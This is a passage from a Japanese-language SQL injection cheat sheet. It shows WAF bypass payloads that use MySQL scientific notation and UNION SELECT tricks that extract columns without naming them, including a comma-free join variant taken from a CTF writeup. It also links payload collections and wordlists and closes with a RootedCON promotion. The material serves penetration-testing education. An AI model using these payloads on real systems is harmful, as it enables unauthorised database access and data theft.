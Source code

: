 ```
```
### 科学的表記法 WAF バイパス

このトリックの詳細な説明は [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/) で見つけることができます。\
基本的に、科学的表記法を予期しない方法で使用することで、WAF をバイパスできます：
```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```
### カラム名制限のバイパス

まず第一に、**元のクエリとフラグを抽出したいテーブルが同じ数のカラムを持っている場合**、単に次のようにすることができます: `0 UNION SELECT * FROM flag`

カラム名を使用せずに**テーブルの第三カラムにアクセスすることが可能**です。次のようなクエリを使用します: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;` したがって、sqlinjectionでは次のようになります:
```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```
または **カンマバイパス** を使用する：
```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
このトリックは[https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)から取られました。

### WAFバイパスサジェスターツール

{% embed url="https://github.com/m4ll0k/Atlas" %}

## その他のガイド

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## ブルートフォース検出リスト

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/sqli.txt" %}



​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​[**RootedCON**](https://www.rootedcon.com/)は、**スペイン**で最も関連性の高いサイバーセキュリティイベントであり、**ヨーロッパ**で最も重要なイベントの一つです。**技術的知識の促進**を使命とし、この会議はあらゆる分野の技術とサイバーセキュリティの専門家の熱い交流の場です。

